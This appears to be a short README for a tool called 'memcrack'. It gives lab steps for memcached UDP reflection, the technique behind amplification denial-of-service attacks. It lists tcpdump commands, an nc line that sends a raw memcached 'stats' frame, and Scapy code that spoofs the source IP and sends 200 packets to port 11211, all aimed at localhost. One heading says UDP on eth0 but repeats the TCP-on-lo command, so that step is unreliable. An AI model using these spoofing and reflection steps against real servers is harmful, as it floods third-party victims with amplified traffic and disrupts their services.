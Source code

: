 # memcrack
Please do not use for illegal purposes

## Lab

Start `tcpdump` for TCP on lo:

```
tcpdump -i lo tcp port 6666 -vv -X
```

Start `tcpdump` for UDP on eth0:

```
tcpdump -i lo tcp port 6666 -vv -X
```

Send direct UDP packet to target:

```
echo "\x00\x00\x00\x00\x00\x01\x00\x00stats\r\n" | nc -u 127.0.0.1 6666
```

Use `Scapy` to spoof packet:

```
>>> ip = IP(src="127.0.0.1", dst="127.0.0.1")
>>> data=Raw("\x00\x00\x00\x00\x00\x01\x00\x00stats\r\n")
>>>
>>> port = UDP(sport=6666, dport=11211)
>>> send(ip / port / data, count=200)
>>>
>>> port = TCP(sport=6666, dport=11211)
>>> send(ip / port / data, count=200)
```